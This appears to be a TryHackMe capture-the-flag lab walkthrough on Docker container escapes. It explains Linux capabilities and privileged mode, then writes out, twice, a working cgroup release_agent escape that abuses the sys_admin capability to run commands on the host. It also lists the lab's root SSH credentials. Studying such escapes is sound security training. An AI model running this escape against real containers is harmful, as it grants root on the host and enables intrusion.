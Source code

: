 9.1**.** Understanding Capabilities

At it's fundamental, Linux capabilities are root permissions given to processes or executables within the Linux kernel. These privileges allow for the granular assignment of privileges - rather than just assigning them all.

These capabilities determine what permissions a Docker container has to the operating system, and how they are interacted with. Docker containers can run in two modes:

-   User mode
-   Privileged mode

Let's refer back to our diagram in Task 2 where we detail how containers run on the operating system to highlight the differences between these two modes:

![](https://assets.tryhackme.com/additional/docker-rodeo/privileged-container/privileged-container-layers.png)

Note how containers #1 and #2 are running is "user"/"normal" mode whereas container 3 is running in "privileged" mode. Containers running in "user" mode interact with the operating system through the Docker engine. Privileged containers, however, do not do this...instead, they bypass the Docker engine and have direct communication with the operating system.

9.2**.** What does this mean for us?

Well, if a container is running with privileged access to the operating system, we can effectively execute commands as root - perfect!

We can use a system package such as "libcap2-bin"'s `capsh`to list the capabilities our container has: `capsh --print`. I've highlighted a few interesting privileges that we have been given, but greatly encourage you to research into anymore that may be exploited! Privileges like these indicate that our container is running in privileged mode.

![](https://assets.tryhackme.com/additional/docker-rodeo/privileged-container/listcap2.png)

---

Before we begin to exploit this for ourselves, **you will need to deploy the new Instance attached to this Task.** The vulnerabilities of the previous VM conflict with this exploit.

9.3**.** Connecting to the container:  

Connect to your **new Instance** using SSH with the following details:

New Instance IP: 10.10.216.184

SSH Port: 2244

Username: root

Password: danny

Allowing a few minutes for the new Instance to deploy, I'm going to demonstrate leveraging the "sys_admin" capability. We can confirm we have this capability by _grepping_ the output of `capsh`:

![](https://assets.tryhackme.com/additional/docker-rodeo/privileged-container/getcap1.png)  

This capability permits us to do multiple of things (which is listed [here](https://linux.die.net/man/7/capabilities)), but we're going to focus on the ability given to use us via "sys_admin" to be able to [mount](https://linux.die.net/man/2/mount) files from the host OS into the container.

The code snippet below is based upon (but a modified) version of the [Proof of Concept (PoC) created by Trailofbits](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.) where they detail the inner-workings to this exploit well.

**1.**  mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

  

**2.**  echo 1 > /tmp/cgrp/x/notify_on_release

  

**3.**  host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

  

**4.**  echo "$host_path/exploit" > /tmp/cgrp/release_agent

  

**5.**  echo '#!/bin/sh' > /exploit

  

**6.**  echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit

  

**7.**  chmod a+x /exploit

  

**8.**  sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

9.4**.** Let's briefly summarise what happens here:

**9.4.1.** We need to create a group to use the Linux kernel to write and execute our exploit. The kernel uses "cgroups" to manage processes on the operating system since we have capabilities to manage "cgroups" as root on the host, we'll mount this to "_/tmp/cgrp_" on the container.

**9.4.2**. For our exploit to execute, we'll need to tell Kernel to run our code. By adding "1" to "_/tmp/cgrp/x/notify_on_release_", we're telling the kernel to execute something once the "cgroup" finishes. [(Paul Menage., 2004)](https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt)

**9.4.3.** We find out where the containers files are stored on the host and store it as a variable

**9.4.4.** Where we then echo the location of the containers files into our "_/exploit_" and then ultimately to the "release_agent" which is what will be executed by the "cgroup" once it is released.

**9.4.5.** Let's turn our exploit into a shell on the host

**9.4.6.** Execute a command to echo the host flag into a file named "flag.txt" in the container, once "_/exploit_" is executed

**9.4.7.** Make our exploit executable!

**9.4.8.** We create a process and store that into "_/tmp/cgrp/x/cgroup.procs_"  

  
**9.5**. Loot:

![](https://assets.tryhackme.com/additional/docker-rodeo/privileged-container/exploit1.png)

_Logging into the new Instance as "root" and executing the code snippet, resulting in container escape._

![](https://assets.tryhackme.com/additional/docker-rodeo/privileged-container/exploit2.png)  

_Showing that the command we executed (/exploit) has grabbed the file from the host operating system._

Answer the questions below

Contents of "flag.txt" from the host operating system

Connect to your **new Instance** using SSH with the following details:
New Instance IP: 10.10.216.184
SSH Port: 2244
Username: root
Password: danny

```
ssh root@10.10.216.184 -p 2244
```

![[Pasted image 20220413195209.png]]

```shell
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/exploit" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /exploit
echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
chmod a+x /exploit
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

![[Pasted image 20220413195502.png]]